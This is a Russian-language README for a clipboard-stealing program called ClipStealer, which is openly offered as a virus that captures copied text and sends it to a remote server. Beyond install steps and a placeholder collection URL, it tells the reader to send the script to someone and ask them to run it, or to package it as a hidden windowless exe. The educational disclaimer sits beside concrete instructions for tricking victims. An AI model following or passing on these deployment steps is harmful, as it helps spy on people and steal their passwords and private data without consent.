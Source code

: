 # CleapStealer - вирус, копирующий всю информацию из буфера обмена.

## Описание

Программа позволяет перехватывать данные из буфера обмена и отправлять их на удалённый сервер. Этот проект создан исключительно для образовательных целей, чтобы понять, как подобные механизмы работают, и как защититься от них.

## Возможности

- Мониторинг буфера обмена.
- Сохранение текста, копируемого пользователем.
- Отправка данных на сервер через HTTP-запросы.

## Установка и запуск

### Шаг 1: Скачивание

Клонируйте репозиторий на своё устройство:

```bash
git clone https://github.com/Filinsl/ClipStealer.git
```

### Шаг 2: Установка зависимостей

Перейдите в директорию проекта и установите зависимости:

```bash
cd ClipStealer
pip install -r requirements.txt
```

### Шаг 3: Редактирование 
Замените  ссылку в файле ClipStealer.py на Url сервера для отправки запроса
```
SERVER_URL = 'example_url/api/clipboard' 
```
### Шаг 4: Запуск сервера

Запустите сервер:

```bash
python server.py
```



### Шаг 5: Отправка файла
Вы можете отправить кому то файл ClipStealer.py и попросить запустить через консоль

```bash
python ClipStealer.py
```
Или вы можете собрать exe файл, например с помощью PyInstaller

```bash
pyinstaller --onefile --noconsole ClipStealer.py
```

## Отказ от ответсвенности

Этот проект предоставлен исключительно для образовательных целей. Любое несанкционированное использование кода может быть наказуемо законом.

